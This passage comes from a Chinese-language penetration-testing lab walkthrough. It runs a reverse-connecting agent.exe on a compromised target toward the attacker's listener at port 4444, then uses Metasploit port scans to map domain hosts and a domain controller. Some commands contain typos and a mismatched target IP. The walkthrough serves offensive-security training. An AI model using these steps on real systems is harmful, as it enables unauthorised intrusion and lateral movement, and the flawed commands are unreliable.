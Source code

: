 

在目标主机上运行agent.exe指定admin的ip地址和端口

```
agent.exe -rhost 172.16.243.1  -rport 4444
```





#### **信息收集**

下面就是对目标内网进行信息收集

探测内网中的存活主机，有那些域主机和域控主机

这里使用的是metasploit的auxiliary/scanner/portscan模块进行端口信息的收集，在之前的信息收集中可以发现域内出来138这台域控外还有一台域内主机，我们首先对这台域内主机进行渗透

```
use auiliary/scanner/portscan
set rhost 192.168.52.141
run
```



可以看到该台域内主机的端口开放如下:

![image-20210808214717299](红日靶场内网渗透.assets/image-20210808214717299.png)



对域控主机182.168.52.138进行端口扫描

```
use auiliary/scanner/portscan
set rhost 192.168.52.141
run
```

![image-20210810112439456](红日靶场内网渗透.assets/image-20210810112439456.png)
